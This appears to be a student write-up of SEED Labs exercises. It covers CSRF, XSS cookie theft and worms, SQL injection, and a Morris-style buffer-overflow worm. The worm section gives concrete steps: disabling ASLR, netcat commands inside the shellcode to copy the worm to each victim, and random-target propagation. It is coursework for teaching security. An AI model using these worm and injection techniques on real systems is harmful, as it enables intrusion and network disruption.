

SEED-LABS Attacks
List of Attacks
Cross-site Request Forgery(CSRF) Attack
Defintion
CSRF stands for cross-site request forgery. Also known as session riding or XSRF. Forces an end user to execute unwanted actions on a web application in which he/she is currently authenticated.
Workflow

Image source: https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/
Task-1: Observing HTTP Request
- How a legitimate HTTP request looks like and what parameters it uses, etc.
- Using a Firefox add-on called "HTTP Header Live" for this purpose.
- Identifying the parameters used in this these requests that we may need.
Task-2: CSRF Attack using GET Request
Samy wants to become a friend to Alice, but Alice refuses to add him to her Elgg friend list. Samy decides to use the CSRF attack to achieve his goal. He sends Alice an URL (via an email or a posting in Elgg). Alice, curious about it, clicks on the URL, which leads her to Samy’s web site. As soon as Alice visits the web page, Samy is added to the friend list of Alice.
Task-3: CSRF Attack using POST Request
Samy wants Alice to say “Samy is my Hero” in her profile, so everybody knows about that. Alice does not like Samy, let alone putting that statement in her profile. Samy plans to use a CSRF attack to achieve that goal.
Task-4: Enabling Elgg’s Countermeasure
To defend against CSRF attacks, web applications can embed a secret token in their pages. All the requests coming from these pages must carry this token, or they will be considered as a cross-site request, and will not have the same privilege as the same-site requests. Attacker will not be able to get this secret token, so their requests are easily identified as cross-site requests. Elgg uses this secret-token approach as its built-in countermeasures to defend against CSRF attacks. Task is to turn on the countermeasure.
Demonstration
Watch it on Google Drive!Cross-site Scripting(XSS) Attack
Defintion
XSS stands for Cross-site scripting. A computer security vulnerability typically found in web applications that enables malicious attackers to inject client side script into web pages viewed by other. An attacker does not target a victim directly. Instead, an attacker would exploit a vulnerability within a website or web application that the victim would visit, essentially using the vulnerable website as a vehicle to deliver a malicious script to the victim’s browser.
Workflow

Image source: https://vitalflux.com/angular-prevent-xss-attacks-code-examples/
Task-1: Posting a Malicious Message to Display an Alert Window
The objective of this task is to embed a JavaScript program in an Elgg profile, such that when another user views that profile, the JavaScript program will be executed and an alert window will be displayed.
Task-2: Posting a Malicious Message to Display Cookies
The objective of this task is to embed a JavaScript program in an Elgg profile, such that when another user views that profile, the user’s cookies will be displayed in the alert window.
Task-3: Stealing Cookies from the Victim’s Machine
In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies, but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to send the cookies to himself/herself. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request.
Task-4: Becoming the Victim’s Friend
We have to write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page. This worm does not self-propagate. In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker. The objective of the attack is to add Samy as a friend to the victim.
Task-5: Modifying the Victim’s Profile
The objective of this task is to modify the victim’s profile when the victim visits Samy’s page. Specifically, modify the victim’s "About Me" field. We have to write an XSS worm to complete the task. This worm does not self-propagate.
Demonstration
Watch it on Google Drive!SQL Injection Attack
Defintion
SQL injection is a code injection technique that exploits the vulnerabilities in the interface between web applications and database servers. The vulnerability is present when user’s inputs are not correctly checked within the web applications before being sent to the back-end database servers
Workflow
Image source: https://www.business2community.com/cybersecurity/sql-injection-attacks-sqli-web-based-application-security-part-4-02223254
Task-1: Get Familiar with SQL Statements
The objective of this task is to get familiar with SQL commands by playing with the provided database. Print out all the tables of the selected database. Use a SQL command to print all the profile information of the employee Alice.
Task-2: SQL Injection Attack on SELECT Statement
- Task 2.1: SQL Injection Attack from webpage.
- Task 2.2: SQL Injection Attack from command line.
- Append a new SQL statement.
Log into the web application as the administrator from the login page without knowing password.
Same as task 2.1 but from command line
Modify the database using the same vulnerability in the login page. There is a countermeasure preventing you from running two SQL statements in this attack.
Task-3: SQL Injection Attack on UPDATE Statement
If a SQL injection vulnerability happens to an UPDATE statement, the damage will be more severe, because attackers can use the vulnerability to modify databases.
- Task 3.1: Modify your own salary.
- Task 3.2: Modify other people’ salary
- Task 3.3: Modify other people’ password.
Task-4: Countermeasure — Prepared Statement
Prepared statement comes into the picture after the compilation but before the execution step. A prepared statement will go through the compilation step, and be turned into a pre-compiled query with empty placeholders for data. To run this pre-compiled query, data need to be provided, but these data will not go through the compilation step; instead, they are plugged directly into the pre-compiled query, and are sent to the execution engine. Therefore, even if there is SQL code inside the data, without going through the compilation step, the code will be simply treated as part of data, without any special meaning. This is how prepared statement prevents SQL injection attacks.
Demonstration
Watch it on Google Drive!Morris Worm Attack
Assignment Setup
- At first, going to Labsetup/internet-nano folder.
- Opening a terminal and use ‘dcbuild’ to build and ‘dcup’ to start
- Then, going to Labsetup/map folder.
- Opening a terminal and use ‘dcbuild’ to build and ‘dcup’ to start. Both terminals are kept running.
- At last, to visualize the nano internet network, pointing browser to “http://localhost:8080 /map.html”
Task 1: Attack Any Target Machine
In this task, we focus on the attacking part of the worm. For the sake of simplicity, we will only exploit the buffer-overflow vulnerability. To accomplish this:
- At first, turning off the address randomization using command ‘sudo /sbin/sysctl -w kernel.randomize_va_space=0’
- Then, the return address (ret) and offset are changed in the ‘worm.py’ file to generate the malicious payload for the buffer-overflow attack. We have found the frame pointer by sending a benign message to the target server. Note: worm.py file is located at Labsetup/worm folder.
- Then, going to Labsetup/worm folder.
- Opening a terminal and use ‘chmod +x worm.py’ and ‘. /worm.py’ to run the file.
- .After successful buffer overflow attack, “echo’(ˆ_ˆ) Shellcode is running (ˆ_ˆ)’” is printed in the “internet-nano” terminal which was kept opening.

Task 2: Self Duplication
In this task, we need to transfer worm.py to the target machine at the time of Buffer Overflow attack. To accomplish this:
- First, we have used our attacker machine as client and target machine as server. Target machine (server) will be listening to the port 7070 and attacker machine (client) will send the file worm.py.
- We have added “nc -lnv 7070 > worm.py” in the
shellcode so that target machine can get the file.
- Then, we have added “cat worm.py | nc -w5 {targetIP} 7070” statement using subprocess in the while loop.
- Next, we have run the worm.py.
- At last, we have checked the victim’s console (from the Map) whether worm.py has been created or not.

Task 3: Propagation
In this task, we need to we need to make changes to worm.py so the worm can continue crawling after it arrives on a newly compromised machine. To accomplish this:
- First of all, we have modified the getNextTarget() function so that we can generate the IP address for the next target randomly.
- Next in the while loop, we have checked whether the next target machine is alive or not.
- Then, we have modified our shellcode so the worm can continue crawling from one machine to another.
- .Next, we have run worm.py and kept eyes on “internet-nano” server whether worm is crawling or not.
- At last, we have used the ‘htop’ command to observe the resource usages. Because, Once the CPU usage hits 100 percent, we need to shut down the nano internet (using ‘dcdown’). Otherwise, if waiting too long may freeze VM (i.e., successfully brought down the internet).
Task 4: Preventing Self Infection
In this task, we need to we need to add such a checking mechanism to the worm code to ensure that one instance of the worm can run on a compromised computer. Besides, the worm file should not be created more than once in a victim machine. To accomplish this:
- First, we have modified shellcode with a condition whether there already exists any worm.py. If so, then the machine will be skipped.
- Then to ensure that one instance of the worm can run on a compromised computer, we have created another file named “myWorm.py” which is used for initial attack. The difference between ‘worm.py’ and ‘myWorm.py’ is that former has extra line ‘exit (0)’ which means that this worm.py will run only at once. Note: Our program sends ‘worm.py’ to the target machine, not ‘myWorm.py’.
- At last, we have used the ‘htop’ command to observe the resource usages. This time, the CPU does not reach 100 percent.
Visualization of attack in Map
As “ping 1.2.3.4” was given in the code, we can visualize the infected machines using “icmp and dst 1.2.3.4” in the filter box. The infected machines are flashing in the map.